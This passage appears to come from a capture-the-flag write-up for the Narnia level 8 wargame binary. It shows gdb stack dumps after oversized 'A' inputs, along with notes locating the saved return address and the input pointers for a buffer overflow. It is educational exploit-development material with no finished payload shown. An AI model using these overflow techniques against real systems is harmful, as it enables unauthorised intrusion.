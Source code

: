 ```
Breakpoint 1, 0x08048485 in func ()
(gdb) x/16wx $esp
0xffffd65c:	0x08048550	0xffffd664	0x41414141	0x41414141
0xffffd66c:	0x41414141	0x41414141	0x41414141	0xffffd841
0xffffd67c:	0xffffd688	0x080484a7	0xffffd86f	0x00000000
0xffffd68c:	0xf7e2a286	0x00000002	0xffffd724	0xffffd730
```

As you can see, I increased the size of the input for each stack dump. The second one shows that we overwrote 1 byte of the 8th value (from `0xffffd871` to `0xffffc541`), but it seems that we can’t overwrite more bytes…

We also note that the 8th and 11th values are the addresses of our input and the 10th value is the return address:

```
(gdb) run $(python -c 'print 20 * "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16wx $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd871
0xffffd68c:	0xffffd698	0x080484a7	0xffffd871	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
(gdb) x/s 0xffffd871
0xffffd871:	'A' <repeats 20 times>
```

Check the following dump, the address `0x080484a7` is in fact the return address to _main()_ at the following line `0x080484a7 <+23>: add esp,0x4`.

```
(gdb) run $(python -c 'print 20 * "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A"')

Breakpoint 2, 0x08048485 in func ()
(gdb) x/20xw $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd871
0xffffd68c:	0xffffd698	0x080484a7	0xffffd871	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
0xffffd6ac:	0x00000000	0x00000000	0x00000000	0xf7fc5000
(gdb) disas main
Dump of assembler code for function main:
   0x08048490 <+0>:	push   ebp
   0x08048491 <+1>:	mov    ebp,esp
   0x08048493 <+3>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048497 <+7>:	jle    0x80484ac <main+28>
   0x08048499 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804849c <+12>:	add    eax,0x4
   0x0804849f <+15>:	mov    eax,DWORD PTR [eax]
   0x080484a1 <+17>:	push   eax
   0x080484a2 <+18>:	call   0x804841b <func>
   0x080484a7 <+23>:	add    esp,0x4
   0x080484aa <+26>:	jmp    0x80484bf <main+47>
   0x080484ac <+28>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484af <+31>:	mov    eax,DWORD PTR [eax]
   0x080484b1 <+33>:	push   eax
   0x080484b2 <+34>:	push   0x8048554
   0x080484b7 <+39>:	call   0x80482e0 <printf@plt>
   0x080484bc <+44>:	add    esp,0x8
```